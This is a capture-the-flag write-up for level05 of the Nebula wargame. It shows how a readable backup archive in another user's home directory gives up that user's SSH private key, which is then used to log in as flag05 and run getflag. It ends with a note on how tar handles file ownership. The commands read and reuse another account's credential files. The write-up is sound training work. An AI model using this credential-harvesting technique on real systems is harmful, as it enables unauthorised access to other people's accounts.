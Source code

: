# For level05 in nebula

>Check the flag05 home directory. You are looking for weak directory permissions
>  
>To do this level, log in as the level05 account with the password level05. Files for this level can be found in /home/flag05.

Remember that our goal is to execute `getflag` as user `flag05`. Everything we do must contribute towards that goal.

Let's take a look at the permissions of all the files in `/home/flag05`
```
level05@nebula:/home/flag05$ ls -la
total 5
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root     220 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
```
`.backup` looks interesting. It must be something important. Let's take a look in it.
```
level05@nebula:/home/flag05/.backup$ ls -l
total 2
-rw-rw-r-- 1 flag05 flag05 1826 2011-11-20 20:13 backup-19072011.tgz
```
It is a compressed tar archive. Tar archives are commonly used to keep a backup of important files. The permissions suggest that user `level05` is able to read the tar archive, so we can extract the files from within. However, `level05` is not allowed to write to directory `/home/flag05/.backup` either. Attempting to extract the files here would result in a permission denied error.
```
level05@nebula:/home/flag05/.backup$ tar xzf backup-19072011.tgz 
tar: .ssh: Cannot mkdir: Permission denied
tar: .ssh: Cannot mkdir: Permission denied
tar: .ssh/id_rsa.pub: Cannot open: No such file or directory
tar: .ssh: Cannot mkdir: Permission denied
tar: .ssh/id_rsa: Cannot open: No such file or directory
tar: .ssh: Cannot mkdir: Permission denied
tar: .ssh/authorized_keys: Cannot open: No such file or directory
tar: Exiting with failure status due to previous errors
```

Simple. We copy `backup-19072011.tgz` into `level05`'s home directory where we have write permissions so the extraction is successful.
```
level05@nebula:~$ tar xzfv backup-19072011.tgz 
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```



Remember, all this is possible because of the weakly configured permissions of `/home/flag05/.backup`. `drwxr-xr-x 2 flag05 flag05` shows that `level05` can `cd` into the `.backup` and list its contents, giving us the opportunity to `cp` the backup tar archive into our home directory.


### Obtained SSH keys

SSH authentication can be done in two ways. Either by password, or by key-based authentication. A simple google search reveals the following:

- `id_rsa` contains the private key of the RSA key pair
- `id_rsa.pub` contains the public key of the RSA key pair
- `authorized_keys` contains the public key of RSA key pairs authorised to use for authenticating clients connecting to the server.

These three files are used in key-based authentication.

>SSH key pairs are two cryptographically secure keys that can be used to authenticate a client to an SSH server. Each key pair consists of a public key and a private key.
>  
>The private key is retained by the client and should be kept absolutely secret. Any compromise of the private key will allow the attacker to log into servers that are configured with the associated public key without additional authentication. As an additional precaution, the key can be encrypted on disk with a passphrase.
[source](https://www.digitalocean.com/community/tutorials/how-to-configure-ssh-key-based-authentication-on-a-linux-server)

With ownership of the private key of the key pair, we are now able to ssh into a system as the user who has the`id_rsa.pub` public key. 

Since the backup tar archive came from user `flag05`, I guess it's safe to assume that `id_rsa.pub` is `flag05`'s public key. If I am correct, we can log in as `flag05`. So let's try!
```
level05@nebula:~$ ssh flag05@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
  
      _   __     __          __     
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ / 
  /_/ |_/\___/_.___/\__,_/_/\__,_/  
                                    
    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
flag05@nebula:~$ 
```
As expected, we successfully logged in and executed `getflag` as `flag05`


### Extra fun fact

>When extracting an archive, do not attempt to preserve the owner specified in the tar archive. This the default behavior for ordinary users. 
[source](https://www.gnu.org/software/tar/manual/tar.html#SEC137)

I realised `level05` owns the extracted members of `backup-19072011.tgz` even though `nebula` is the actual owner of the members.

This is the permissions of the files after being extracted from `backup-19072011.tgz`.
```
-rw-rw-r-- 1 level05 level05 1826 2018-04-01 13:29 backup-19072011.tgz
drwxr-xr-x 1 level05 level05  120 2018-04-01 13:35 .ssh
-rw-r--r-- 1 level05 level05  394 2011-07-19 02:37 authorized_keys
-rw------- 1 level05 level05 1675 2011-07-19 02:37 id_rsa
-rw-r--r-- 1 level05 level05  394 2011-07-19 02:37 id_rsa.pub
``` 

I added `--same-owner` so the owner specified in the tar archive would be preserved. That way, I can see who is the real owner of the members of the tar archive.
```
level05@nebula:/home/flag05$ tar xzf .backup/backup-19072011.tgz -C ~ --same-owner
tar: .ssh/id_rsa.pub: Cannot change ownership to uid 1000, gid 1000: Operation not permitted
tar: .ssh/id_rsa: Cannot change ownership to uid 1000, gid 1000: Operation not permitted
tar: .ssh/authorized_keys: Cannot change ownership to uid 1000, gid 1000: Operation not permitted
tar: .ssh: Cannot change ownership to uid 1000, gid 1000: Operation not permitted
```
The user with UID 1000 is `nebula`. 
```
level05@nebula:/home/flag05$ cat /etc/passwd | grep "1000"
nebula:x:1000:1000:nebula,,,:/home/nebula:/bin/bash
```
This proves that even though `nebula` is the real owner of the `.ssh` files, because `tar` does not preserve the owner specified in the tar archive when extracting, the owner of the extracted files becomes the user who invoked `tar`, which in this case is `level05`.

END
